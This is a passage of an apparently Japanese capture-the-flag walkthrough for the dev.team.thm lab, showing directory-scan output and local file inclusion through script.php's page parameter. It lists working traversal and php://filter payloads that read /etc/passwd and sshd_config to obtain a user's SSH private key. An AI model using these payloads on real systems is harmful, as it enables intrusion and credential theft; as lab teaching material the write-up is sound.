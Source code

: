 ```shell
/index.php            (Status: 200) [Size: 187]
/script.php           (Status: 200) [Size: 114]
/server-status        (Status: 403) [Size: 277]
Progress: 681570 / 681573 (100.00%)
===============================================================
Finished
===============================================================
```

ホームページのリンクをクリックすると下記がリクエストされる。

http://dev.team.thm/script.php?page=teamshare.php

include で page を表示していると想定。

http://dev.team.thm/script.php?page=../../../../etc/passwd  
または  
http://dev.team.thm/script.php?page=php://filter/convert.base64-encode/resource=/etc/passwd  
の形でファイルインクルージョンが機能することを確認。

dataスキームは機能しない。

http://dev.team.thm/script.php?page=../../../../var/log/apache2/access.log  
表示されない。

http://dev.team.thm/script.php?page=../../../../home/dale/.ssh/id_rsa  
表示されない。

LFI-gracefulsecurity-linux.txt で ffuf を実行すると大量にヒットしすぎて訳が分からないので、SSHに絞る。

```shell
$ grep ssh /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/etc/ssh/ssh_host_dsa_key
/etc/ssh/ssh_host_dsa_key.pub
/etc/ssh/ssh_host_key
/etc/ssh/ssh_host_key.pub
~/.ssh/authorized_keys
~/.ssh/id_dsa
~/.ssh/id_dsa.pub
~/.ssh/id_rsa
~/.ssh/id_rsa.pub
~/.ssh/id_ecdsa
~/.ssh/id_ecdsa.pub
~/.ssh/identity
~/.ssh/identity.pub
```

http://dev.team.thm/script.php?page=../../../../etc/ssh/sshd_config

をみると、dale のプライベートキーが入っていることが分かった。

Base64にして取得。  
http://dev.team.thm/script.php?page=php://filter/convert.base64-encode/resource=../../../../etc/ssh/sshd_config
